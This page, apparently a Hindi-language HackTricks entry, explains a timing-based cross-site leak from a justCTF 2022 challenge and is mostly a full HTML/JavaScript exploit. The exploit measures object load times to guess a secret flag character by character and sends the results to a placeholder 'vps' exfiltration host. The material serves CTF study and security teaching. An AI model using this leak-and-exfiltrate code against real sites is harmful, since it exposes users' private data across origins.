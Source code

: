 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

इस चुनौती में उपयोगकर्ता हजारों अक्षर भेज सकता था और यदि ध्वज शामिल था, तो अक्षर बॉट को वापस भेज दिए जाते थे। इसलिए यदि हम बड़े पैमाने पर अक्षर डालते हैं, तो हम माप सकते हैं कि क्या ध्वज भेजे गए स्ट्रिंग में शामिल था या नहीं।

> [!WARNING]
> प्रारंभ में, मैंने ऑब्जेक्ट की चौड़ाई और ऊँचाई सेट नहीं की, लेकिन बाद में, मैंने पाया कि यह महत्वपूर्ण है क्योंकि डिफ़ॉल्ट आकार लोड समय में अंतर करने के लिए बहुत छोटा है।
```html
<!DOCTYPE html>
<html>
<head> </head>
<body>
<img src="https://deelay.me/30000/https://example.com" />
<script>
fetch("https://deelay.me/30000/https://example.com")

function send(data) {
fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
}

function leak(char, callback) {
return new Promise((resolve) => {
let ss = "just_random_string"
let url =
`http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement("object")
object.width = "2000px"
object.height = "2000px"
object.data = url
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log("Error event triggered")
document.body.appendChild(object)
})
}

send("start")

let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
let flag = "justCTF{"

async function main() {
let found = 0
let notFound = 0
for (let i = 0; i < 3; i++) {
await leak("..")
}
for (let i = 0; i < 3; i++) {
found += await leak("justCTF")
}
for (let i = 0; i < 3; i++) {
notFound += await leak("NOT_FOUND123")
}

found /= 3
notFound /= 3

send("found flag:" + found)
send("not found flag:" + notFound)

let threshold = found - (found - notFound) / 2
send("threshold:" + threshold)

if (notFound > found) {
return
}

// exploit
while (true) {
if (flag[flag.length - 1] === "}") {
break
}
for (let char of charset) {
let trying = flag + char
let time = 0
for (let i = 0; i < 3; i++) {
time += await leak(trying)
}
time /= 3
send("char:" + trying + ",time:" + time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
